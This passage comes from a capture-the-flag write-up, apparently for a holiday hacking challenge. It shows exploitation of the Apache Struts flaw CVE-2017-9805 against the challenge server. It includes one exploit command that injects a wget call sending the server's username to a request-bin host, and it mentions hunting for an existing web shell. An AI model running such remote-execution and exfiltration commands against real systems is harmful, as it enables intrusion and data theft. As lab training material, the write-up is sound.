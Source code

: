 We can verify this by, for example, running wget/curl on site where we can monitor for requests. https://requestb.in/
make this very easy, set up a private bin and have the server wget to it:

```
> python .\task2\cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "wget https://requestb.in/[BIN_ID]?a=$(whoami)"
```

After refresing the inspect view of our request bin we see that the server did make a request, 
confirming that the exploit is working. We also find that the current user is `alabaster_snowball`:

![Task2: Exploit Working](task2/task2_exploit_working.png)

Using the same techique we can run shell commands and get their response fairly easily. It's still a
bit more annoying than we would like though. One of the earlier hints tells us there is a webshell
already on the server, why don't we find that instead?

> Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
>
> -- Sparkle Redberry, Hint 3
